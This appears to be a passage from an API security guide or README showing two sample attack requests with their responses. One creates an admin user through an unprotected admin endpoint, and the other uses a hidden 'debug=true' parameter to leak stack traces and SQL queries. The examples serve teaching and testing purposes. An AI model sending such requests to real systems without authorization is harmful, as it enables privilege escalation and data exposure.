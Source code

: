 
## 🛠️ Sample Attack Scenarios

### Example 1: Exploiting an Unprotected Endpoint
**Request:**
```http
POST /api/v1/admin/users HTTP/1.1
Host: target.com
Content-Type: application/json
Content-Length: 50

{
  "username": "testuser",
  "role": "admin"
}
```

**Response:**
```json
{
  "message": "User created successfully."
}
```

---

### Example 2: Finding Hidden Parameters
**Request:**
```http
GET /api/orders?debug=true HTTP/1.1
```
**Response:**
```json
{
  "order_details": [...],
  "debug_info": { "stack_trace": "...", "sql_query": "..." }
}
```
